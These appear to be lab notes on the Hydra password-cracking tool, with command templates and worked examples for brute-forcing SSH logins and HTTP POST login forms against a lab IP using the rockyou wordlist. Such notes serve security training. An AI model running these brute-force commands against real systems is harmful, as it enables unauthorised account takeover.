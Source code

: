 official repo: https://github.com/vanhauser-thc/thc-hydra


### SSH

SSH: `hydra -l <username> -P <full path to pass> 10.10.214.198 -t 4 ssh`

#### EXAMPLE THAT WORKED:
``hydra -l molly -P /usr/share/wordlists/rockyou.txt  10.10.214.198 -t 4 ssh``

-----------

Option 	Description
-l 	specifies the (SSH) username for login
-P 	indicates a list of passwords
-t 	sets the number of threads to spawn

### Post Web Form

``sudo hydra <username> <wordlist> 10.10.214.198 http-post-form "<path>:<login_credentials>:<invalid_response>"``

#### EXAMPLE THAT WORKED:
``hydra -l molly -P /usr/share/wordlists/rockyou.txt  10.10.214.198 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V``

-------------



Option 	Description
``-l`` 	the username for (web form) login
``-P`` 	the password list to use
``http-post-form`` 	the type of the form is POST

<path> 	the login page URL, for example, login.php

<login_credentials> 	the username and password used to log in, for example, username=^USER^&password=^PASS^

<invalid_response> 	part of the response when the login fails
-V 	verbose output for every attempt

EXAMPLE: 
hydra -l <username> -P <wordlist> 10.10.214.198 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


    The login page is only /, i.e., the main IP address.
    The username is the form field where the username is entered
    The specified username(s) will replace ^USER^
    The password is the form field where the password is entered
    The provided passwords will be replacing ^PASS^
    Finally, F=incorrect is a string that appears in the server reply when the login fails
